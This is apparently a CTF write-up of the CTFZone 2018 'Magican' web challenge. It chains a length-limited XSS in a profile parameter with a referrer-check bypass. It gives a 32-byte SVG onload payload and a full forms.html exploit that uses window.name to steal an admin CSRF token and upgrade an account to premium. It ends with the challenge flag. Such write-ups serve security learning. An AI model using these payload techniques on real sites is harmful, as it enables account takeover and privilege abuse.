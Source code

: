 # Magican &ndash; write-up by @terjanq
*CTFZone 2018 Quals, 7/24/18*

## Description
We are provided with a simple website  
![website]

and the only functionalities are `login/register`, `edit profile`, `support`. 

`Support` section allows us to send two types of messages to the admin: `Problems with Profile` and `Get premium account`. Each of them contains two fields: `Link to profile` and `Message`.  
![support]

`Edit profile` section allows us to edit our name.  
![profile]

## Quick research
- When we manually edit the `Link to profile` field to `http://ourwebsite` in the first option of `Support` section the admin will visit it and thanks to the `User-Agent header` we could see that the admin is using `Firefox 61.0`.  

- `HTTP response header` looks like:
```
< Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
< Content-Type: text/html; charset=UTF-8
< Referrer-Policy: origin
< Server: Apache/2.4.25 (Debian)
< X-Content-Type-Options: nosniff
< X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
< X-Powered-By: PHP/7.0.30
< X-XSS-Protection: 1; mode=block
```
and means that
    - we cannot include any external `scripts` and `styles`
    - we cannot embed the website into `iframe` on external website (however Google will allow it due to the *incorrect header*)
    - any attempt of `reflected XSS` should be blocked by the browser
    - we can send information out as the `image` or `xhr requests`
     
- Parameter `uuid` in the request `http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=<uuid>` is vulnerable to the injections ( XSS/CSS ) and is limited to `36 characters`. The lack of `XSS Auditor` in Firefox allows us to inject `XSS` in there.  
    ![xss]

- With the help of dirbuster, I found the `manage.php` page which is the admin's tool for changing `user status` to `premium`  
![manage]

- `profile.php` and `manage.php` are protected by the `hidden token`, and tokens are associated with the current session

- When we try to send `POST` data to the `profile.php` or `manage.php` with `Referrer` different than `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one` the error `Wrong Referrer` will appear. However, I found out that it only has to start with it and therefore the referrer `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one.example.com` will be accepted!.

- When we try to change our status to `premium`, `Permission Denied!` appears.

## Solution

Based on the findings it was obvious that our goal is to do a `CSRF` (Cross-Origin Request Forgery) attack, in order to change our status to `premium`, and the only missing piece is the `token`. It was a very tough task to steal and then send the token in `34 bytes`! With the help of [@gros] from my team we managed to create a payload `"><svg/onload=$.globalEval(name)` 32 bytes long where `name` is a just short form of `window.name` property. We assigned it by sending the admin to our webpage where we triggered `window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', <long payload>)` setting `window.name` to `<long payload>`.  
    The complete [forms.html] looked like:  
```HTML
<script>

      window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `

        $.get("manage.php", function(data){    
                var x = /name="token" value="([^"]+)/.exec(data);
                $.post("manage.php", {user_uuid: "6c1e8255-ceed-428a-8b48-74e13db8142d", token: x[1], status: "premium"}); 
         });

   `);

</script>
```
And after sending the admin to that page, on my profile I could find the flag: **ctfzone{0190af5705a38115cd6dee6e7d79e317}**





[website]: <./images/website.png>
[xss]: <./images/xss.png>
[profile]: <./images/profile.png>
[support]: <./images/support.png>
[manage]: <./images/manage.png>
[forms.html]: <./forms.html>
[@gros]: <#>